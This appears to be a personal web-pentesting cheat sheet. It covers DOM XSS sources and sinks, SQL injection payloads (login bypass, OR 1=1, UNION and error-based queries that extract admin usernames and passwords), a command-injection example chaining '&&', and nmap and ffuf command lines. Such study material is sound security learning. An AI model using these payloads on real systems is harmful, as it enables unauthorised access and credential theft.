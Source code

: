  - Popular Sources and sinks
    - eval | setTimout | setInterval
    - document.URL | document.documentURI | document.referrer | document.write
    - location.href | location.search | location.*
    - window.name
    - (element).innerHTML
    - document.baserURI `http://www.example.com/test.html#<script>alert(1)</script>`

#### SQL Injection
  - Cloned github sqlmap, opensource SQL pentesting tool for SQL injection flaws
  - Examples and overview in portswigger [here](//portswigger.net/web-security/sql-injection)
  - username ` administrator'-- ` subverts application logic
  - using ` admin' ` shows if can SQL inject, then determine columns
    - ` https://insecure-website.com/products?category=Gifts'-- `
    - ` https://insecure-website.com/products?category=Gifts'+OR+1=1-- `
  
  - SQL Union select attacks
    - ` 'UNION SELECT '123' AS password FROM admins WHERE '1' = '1 `
    - ` foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.username as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1 `
    - ` foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.password as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1 `

#### Command Injection and SQLi
  - [PayloadsAndAllTheThings](//github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
    
  - Good [hackerOne tutorial](//www.hackerone.com/blog/how-to-command-injections)
  - Exploit ping and hostname using `ping 0.0.0.0 && echo`
  - Paylods:
    - ` 'or 1='1-- ` (all rows - true )
    - ` 'AND 0='1-- `(no rows - false )
  - Example header injection [report](//hackerone.com/reports/297478)
  - Example header injection [report](//hackerone.com/reports/761304)

#### NMAP Cheat Sheet
  - `
    nmap 127.0.0.1
    nmap 127.0.0.1 -sS
    nmap 127.0.0.1 -sS
    sudo nmap 127.0.0.1 -sS
    nmap 127.0.0.1 -sU
    sudo nmap 127.0.0.1 -sU
    sudo nmap 127.0.0.1 -sA
    nmap 127.0.0.1 --top-ports 2000
    sudo nmap 127.0.0.1 -O
    nmap --script whois* something.com
    `

#### [FFUF](//github.com/ffuf/ffuf)
  Good video: //codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html
  - uses wordlist to find assets via scan
  - `ffuf -u xx.com/FUZZ -w ./wordlist.txt | tee ./output.txt`
  - `ffuf -u xx.com/FUZZ -w ./wordlist.txt -recursion`
  - `ffuf -u xx.com/FUZZ -w ./wordlist.txt -recursion -e .doc`
  - `ffuf -u xx.com/FUZZ -w ./wordlist.txt -of html -o ./output.txt`
  - add cookies `-b "COOKIE1=VALUE1; VAL2=VAL2"`
  - custom headers `-H "HEADER1=VALUE1; HEAD2=VAL2"`
  - Multiple domains same wordlist `ffuf -u https://w2.com/W1 -w ./wordlist:W1 -w ./domains:W2`
  - Export request from burp then use in ffuf:  `ffuf -request /path/to/file -w ./wordlist`
